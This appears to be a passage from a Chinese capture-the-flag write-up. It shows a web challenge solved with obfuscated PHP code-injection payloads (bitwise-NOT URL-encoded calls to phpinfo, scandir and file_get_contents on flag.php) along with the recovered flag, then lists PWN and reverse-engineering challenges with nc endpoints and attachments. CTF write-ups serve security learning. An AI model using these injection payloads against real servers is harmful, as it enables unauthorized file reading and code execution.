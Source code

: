 phpinfo()
http://121.36.74.163/?code=(~%8F%97%8F%96%91%99%90)()

print_r(scandir(./))
http://121.36.74.163/?code=(~%8f%8d%96%91%8b%a0%8d)((~%8c%9c%9e%91%9b%96%8d)(~%d1%d0))

print_r(file_get_contents(flag.php))
http://121.36.74.163/?code=(~%8f%8d%96%91%8b%a0%8d)((~%99%96%93%9a%a0%98%9a%8b%a0%9c%90%91%8b%9a%91%8b%8c)(~%99%93%9e%98%d1%8f%97%8f))

```
flag{ecee9b5f24f8aede87cdda995fed079c}
```



## PWN

### of（solved:91,181pt）

> nc 121.36.74.70 9999

附件下载：02f2dd3e01f3482096ceeec583b6f475.zip



### pwnme（solved:73,217pt）

> 一个简单的pwn题目。
> nc 121.36.58.215 1337

附件下载：d7c87223494040518100e090624d213a.zip



### twice（solved:162,110pt）

> nc 121.36.59.116 9999

附件下载：754cf5ffa4fe4c6e9e1686e804736a0e.zip



## REVERSE

### rev（solved:67,232pt）

> 本道题目flag提交格式为：ctf{XXXX}

附件下载：68f17df6f0c6402ea0172d016434922d.zip



### nop（solved:138,127pt）

附件下载：6035d22c80c1433a8f06b5333630ff89.zip



### ManageCode（solved:44,317pt）

附件下载：6a1864aae4774faeb3260ed311149a2c.zip